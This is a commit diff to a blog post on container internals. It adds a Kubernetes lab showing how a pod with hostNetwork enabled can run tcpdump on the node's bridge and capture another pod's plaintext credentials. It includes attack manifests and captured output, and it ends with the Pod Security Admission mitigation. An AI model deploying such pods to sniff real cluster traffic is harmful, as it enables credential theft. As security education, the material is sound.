

Before and after one commit to TrueBad0ur/myjekyllblog, a Jekyll site: the page built from jekyll/_posts/2024-08-29-Linux-and-Containers-Internals.md, in a window 1280 px wide and 1400 px high, scrolled down 15085 px. Shown: the whole window at 89% size, without its empty margins (107-1171 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 15429 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Add hostNetwork

````diff
--- a/jekyll/_posts/2024-08-29-Linux-and-Containers-Internals.md
+++ b/jekyll/_posts/2024-08-29-Linux-and-Containers-Internals.md
@@ -643,6 +643,119 @@
 
 #### [](#header-4)hostNetwork
 
+```yaml
+victim1.yml
+apiVersion: v1
+kind: Pod
+metadata:
+  name: victim1
+  labels:
+    app: victim1
+  namespace: vuln-psa-ns
+spec:
+  containers:
+  - name: victim1
+    image: ubuntu
+    command: [ "/bin/bash", "-c", "--" ]
+    args: [ "apt update && DEBIAN_FRONTEND=noninteractive apt install -y python3 && python3 -m http.server 8080" ]
+  nodeName: worker
+
+---
+
+apiVersion: v1
+kind: Service
+metadata:
+  name: victim1
+  namespace: vuln-psa-ns
+spec:
+  selector:
+    app: victim1
+  ports:
+    - protocol: TCP
+      port: 8080
+      targetPort: 8080
+  type: ClusterIP
+```
+
+On victim1 we have a python server:
+```bash
+root@victim1:/# netstat -tulpn
+Active Internet connections (only servers)
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
+tcp        0      0 0.0.0.0:8080            0.0.0.0:*               LISTEN      1/python3
+
+root@victim1:/# ifconfig
+eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1450
+        inet 10.42.2.60  netmask 255.255.255.0  broadcast 10.42.2.255
+        inet6 fe80::8420:9aff:fe6f:b378  prefixlen 64  scopeid 0x20<link>
+        ether 86:20:9a:6f:b3:78  txqueuelen 0  (Ethernet)
+        RX packets 26414  bytes 38519569 (38.5 MB)
+        RX errors 0  dropped 0  overruns 0  frame 0
+        TX packets 11444  bytes 881368 (881.3 KB)
+        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
+```
+
+On victim2 we will periodically send post requests with secret data to out victim1
+```yaml
+victim2.yml
+apiVersion: v1
+kind: Pod
+metadata:
+  name: victim2
+  namespace: vuln-psa-ns
+spec:
+  containers:
+  - name: victim2
+    image: ubuntu
+    command: [ "/bin/bash", "-c", "--" ]
+    args: [ "apt update && DEBIAN_FRONTEND=noninteractive apt install -y curl; while true; do curl -H 'Content-Type: application/json' -d '{ \"admin\":\"admin\", \"password\":\"Sup3r_S3cr3t\" }' -X POST victim1:8080; sleep 2; done" ]
+  nodeName: worker
+```
+
+And now the attacker:
+```yaml
+apiVersion: v1
+kind: Pod
+metadata:
+  name: attacker
+  namespace: vuln-psa-ns
+spec:
+  hostNetwork: true
+  containers:
+  - name: attacker
+    image: ubuntu
+    command: [ "/bin/bash", "-c", "--" ]
+    args: [ "apt update && DEBIAN_FRONTEND=noninteractive apt install -y tcpdump; tcpdump -i cni0 -A -s 0 'tcp port 8080'" ]
+  nodeName: worker
+```
+
+And we succesefully get:
+```bash
+..(.)Ik.POST / HTTP/1.1
+Host: victim1:8080
+User-Agent: curl/8.5.0
+Accept: */*
+Content-Type: application/json
+Content-Length: 46
+
+{ "admin":"admin", "password":"Sup3r_S3cr3t" }
+```
+
+Usually the traffic inside the cluster isn't encrypted (ssl) so we can get such info by sniffing
+
+Also we can access the services running on host(node) interfaces, like:
+```bash
+I run python server on node
+and inside the pod with enabled hostNetwork I can access it
+
+root@worker:/# netstat -tulpn
+Active Internet connections (only servers)
+Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
+tcp        0      0 127.0.0.1:31337         0.0.0.0:*               LISTEN      -
+```
+
+As in the previous example if we enable ```PSA``` with ```pod-security.kubernetes.io/enforce: restricted``` the pod is prohibited to be created
+
 #### [](#header-4)hostIPC
 
 #### [](#header-4)hostPath
````
